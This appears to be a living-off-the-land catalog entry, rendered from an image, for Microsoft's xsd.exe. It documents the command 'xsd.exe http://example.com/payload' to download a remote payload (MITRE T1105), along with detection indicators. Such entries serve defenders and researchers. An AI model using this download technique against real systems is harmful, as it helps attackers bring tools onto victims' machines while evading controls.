 ```yaml
---
Name: xsd.exe
Description: XML Schema Definition Tool included with the Windows Software Development Kit (SDK).
Author: Avihay Eldad
Created: 2024-04-09
Commands:
  - Command: xsd.exe http://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft SDKs\Windows\{version}\bin\NETFX {version} Tools\xsd.exe
Detection:
  - IOC: URL on a xsd.exe command line
  - IOC: xsd.exe making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

